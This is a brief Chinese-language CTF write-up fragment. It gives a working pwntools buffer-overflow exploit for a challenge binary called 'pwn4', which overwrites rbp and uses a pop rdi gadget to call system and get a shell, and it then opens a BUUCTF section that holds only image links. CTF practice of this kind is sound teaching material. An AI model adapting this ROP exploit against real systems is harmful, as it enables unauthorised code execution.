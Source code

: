 **exp**

4. 0x10+8覆盖rbp，$0存入rdi作为system的参数，传入system调用

```python
from pwn import *
context.log_level = 'debug'
p = process('/root/pwn4')
#p = remote('114.116.54.89','10004')
system = 0x40075A
bash = 0x60111f
pop_rdi = 0x4007d1
payload = "a" * 0x10 + "a" * 8 + p64(pop_rdi) + p64(bash) + p64(system)
p.recvuntil("Come on,try to pwn me")
p.sendline(payload)
p.interactive()

```

## BUUCTF

### 1.test_your_nc

![](截图\5.1.png)

![](截图\5.2.png)
